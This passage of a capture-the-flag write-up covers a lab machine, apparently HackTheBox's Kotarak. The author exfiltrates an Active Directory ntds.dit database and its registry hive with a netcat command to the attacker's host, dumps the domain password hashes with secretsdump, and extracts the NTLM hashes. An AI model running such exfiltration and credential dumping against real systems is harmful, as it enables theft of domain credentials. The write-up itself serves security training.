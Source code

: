 The `.bin` reports to be a Windows registry file, where as `file` doesn’t recognize the `.dit` as anything more than data:

```

tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ file *
20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit: data
20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin: MS Windows registry file, NT/2000 or above

```

The `.dit` is likely the active directory database from a domain controller, `ntds.dit`.

I’ll exfil each over `nc`. For example, I’ll start a listener with `nc -lnvp 443 > 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit` on my VM, and then run `cat 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit | nc 10.10.14.15 443` on Kotarak.

### Recover Passwords

#### Dump Hashes

`secretsdump` will extract all the hashes from an `ntds.dit` file using the SYSTEM reg hive to decrypt:

```

oxdf@parrot$ secretsdump.py -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -system 20170721114637_de
fault_192.168.110.133_psexec.ntdsgrab._089134.bin LOCAL | tee addump
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient                                           
[*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
[*] Reading and decrypting hashes from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
...[snip]...

```

I’ve used `tee` to write the output to a file so I can easily grab the NTLM hashes from the output:

```

oxdf@parrot$ cat addump | grep ":::" | cut -d: -f4
e64fe0f24ba2489c05e64354d74ebd11
31d6cfe0d16ae931b73c59d7e0c089c0
668d49ebfdb70aeee8bcaeac9e3e66fd
ca1ccefcb525db49828fbb9d68298eee
160f6c1db2ce0994c19c46a349611487
6f5e87fd20d1d8753896f6c9cb316279
cdd7a7f43d06b3a91705900a592f3772
24473180acbcc5f7d2731abe05cfa88c
2b576acbe6bcfda7294d6bd18041b8fe

```

